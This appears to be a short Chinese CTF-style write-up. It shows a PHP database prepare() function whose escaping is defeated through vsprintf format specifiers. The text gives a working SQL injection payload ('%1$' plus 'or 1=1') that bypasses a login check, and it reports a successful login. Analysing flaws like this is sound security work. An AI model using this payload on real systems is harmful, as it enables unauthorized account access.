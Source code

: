 其中prepare处的代码[DB.class.php]：

```php
public static function prepare($query, $args){
        if (is_null($query)){
            return;
        }
        if (strpos($query, '%') === false){
            error('%s not included in query!');
            return;
        }
        // get args
        $args = func_get_args();
        array_shift( $args );
        $args_is_array = false;
        if (is_array($args[0]) && count($args) == 1 ) {
            $args = $args[0];
            $args_is_array = true;
        }
        $count_format = substr_count($query, '%s');
        if($count_format !== count($args)){
            error('Wrong number of arguments!');
            return;
        }
        // escape
        foreach ($args as &$value){
            $value = static::$db->real_escape_string($value);
        }
        // prepare
        $query = str_replace("%s", "'%s'", $query);
        $query = vsprintf($query, $args);
        return $query;
    }
```

prepare中用到了`$query = vsprintf($query, $args)`; 
这里的漏洞点是：

![](https://i.imgur.com/vwFnmal.png)


我们可以通过一下payload进行闭合：

```
password=password%1$&name=)+or+1=1%23name
```

把name的值通过%1带到password中，绕过过滤，闭合sha1()，然后用or进行永真闭合

![](https://i.imgur.com/dO7bpzi.png)

登陆进去之后

![](https://i.imgur.com/70RvcaN.png)
